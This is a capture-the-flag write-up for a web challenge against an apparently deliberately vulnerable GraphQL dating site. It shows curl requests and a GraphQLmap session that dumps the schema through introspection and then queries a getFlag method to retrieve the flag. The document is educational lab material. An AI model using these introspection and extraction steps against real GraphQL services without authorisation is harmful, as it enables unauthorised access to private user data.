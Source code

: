 # Find my intro
Category: Web, 100 points

## Description

> challenge 1 in Imperva's GQLDating series
> 
> Hi there! I just joined a new dating site called GQL-Dating and I'm so excited :) I hope to find my life partner.. But first, can you please help me inject the schema?


## Solution

The attached website is an online dating website which allows registering and searching for other users. While searching for a user, we can see the following request being sent from the site:

```console
┌──(user@kali)-[/media/sf_CTFs/technion/Find_my_intro]
└─$ curl 'http://ec2-3-239-182-16.compute-1.amazonaws.com:1234/gql/graphql' -X POST -H 'Content-Type: application/json' --data-raw '{"operationName":null,"variables":{},"query":"query {   getPersonByName(name:\"test\"){     persons{       id       name     gender     link}   } }"}'
{"data":{"getPersonByName":{"persons":[]}}}
```

This is a [GraphQL](https://en.wikipedia.org/wiki/GraphQL) query. Let's see how we can use it to leak data from the DB. We'll use [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap) to interact with the GraphQL endpoint. First, let's dump the schema:

```console
┌──(user@kali)-[/media/sf_CTFs/technion/Find_my_intro]
└─$ python3 ~/utils/web/GraphQLmap/graphqlmap.py -u http://ec2-3-239-182-16.compute-1.amazonaws.com:1234/gql/graphql?query={} -v --method POST --json
   _____                 _      ____  _
  / ____|               | |    / __ \| |
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/
                  | |                                       | |
                  |_|                                       |_|
                              Author: @pentest_swissky Version: 1.0
GraphQLmap > dump_new
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

User
        name[]:
        email[]:
        rate[]:
Flag
        hint[]:
        key[]:
FlagResult
        success[Boolean]:
        errors[String]:
        flag[]:
Person
        id[ID]:
        nickname[]:
        name[]:
        last_name[]:
        joined_at[]:
        city[]:
        interest_in[]:
        gender[]:
        personal_info[]:
        link[]:
PersonRate
        id[ID]:
        nickname[]:
        name[]:
        last_name[]:
        rate[]:
PersonResult
        success[Boolean]:
        errors[String]:
        person[]:
PersonsResult
        success[Boolean]:
        errors[String]:
        persons[Person]:
PersonRateResult
        success[Boolean]:
        errors[String]:
        person_rate[]:
UserResult
        success[Boolean]:
        errors[String]:
        user[]:
Post
        id[ID]:
        title[String]:
        description[String]:
        created_at[String]:
PostResult
        success[Boolean]:
        errors[String]:
        post[]:
PostsResult
        success[Boolean]:
        errors[String]:
        posts[Post]:
Query
        getFlag[FlagResult]:
        listPosts[PostsResult]:
        getPost[PostResult]: id (ID!),
        listPersons[PersonsResult]:
        getPerson[PersonResult]: id (ID!),
        getPersonByName[PersonsResult]: name (!),
        getPersonByNickName[PersonResult]: nickname (!),
        getPersonRate[PersonRateResult]: id (ID!),
        getUser[UserResult]: email (String!),
Mutation
        createPost[PostResult]: title (String!), description (String!), created_at (!),
        updatePost[PostResult]: id (ID!), title (!), description (!),
        deletePost[PostResult]: id (!),
        updatePersonRate[PersonRateResult]: id (ID!), rate (Int!),
        updateUserRate[UserResult]: email (String!), rate (Int!),
__Schema
__Type
__Field
__InputValue
__EnumValue
__Directive
GraphQLmap >
```


This gives us a nice overview of the methods and objects. We can see that there's a method (Query) called `getFlag`, which returns a `FlagResult` containing a `flag` with a `hint` and a `key`. Let's get it:

```console
GraphQLmap > { getFlag { flag {hint key}}}
{ getFlag { flag {hint key}}}
{
    "data": {
        "getFlag": {
            "flag": {
                "hint": "I really like the nickname liron",
                "key": "cstechnion{b00m!_600d_574r7_}"
            }
        }
    }
}
```